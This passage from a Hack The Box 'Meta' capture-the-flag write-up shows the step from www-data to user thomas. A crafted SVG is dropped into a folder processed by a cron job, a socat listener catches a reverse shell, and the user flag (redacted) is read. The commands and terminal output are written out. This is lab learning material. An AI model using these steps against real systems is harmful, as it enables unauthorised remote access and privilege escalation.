 ```shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ nano /dev/shm/poc.svg
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cp /dev/shm/poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

- Setup a socat TTY listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:22:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:53
2023/08/16 17:22:10 socat[206953] N opening character device "/dev/pts/1" for reading and writing
2023/08/16 17:22:10 socat[206953] N listening on AF=2 0.0.0.0:53
```

- Wait for a minute for the cronjob run:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:22:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:53
2023/08/16 17:22:10 socat[206953] N opening character device "/dev/pts/1" for reading and writing
2023/08/16 17:22:10 socat[206953] N listening on AF=2 0.0.0.0:53
                                                                2023/08/16 17:25:02 socat[206953] N accepting connection from AF=2 10.10.11.140:45882 on AF=2 10.10.14.19:53
                                                                 2023/08/16 17:25:02 socat[206953] N starting data transfer loop with FDs [5,5] and [7,7]
                                              thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ 
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ export TERM=xterm-256color                      
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ stty rows 22 columns 107
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ ^C
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ whoami; hostname; id; ip a
thomas
meta
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:2f:79 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.140/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Now I'm user `thomas`!

**user.txt:**
```shell
thomas@meta:~$ cat user.txt 
{Redacted}
```

### thomas to root
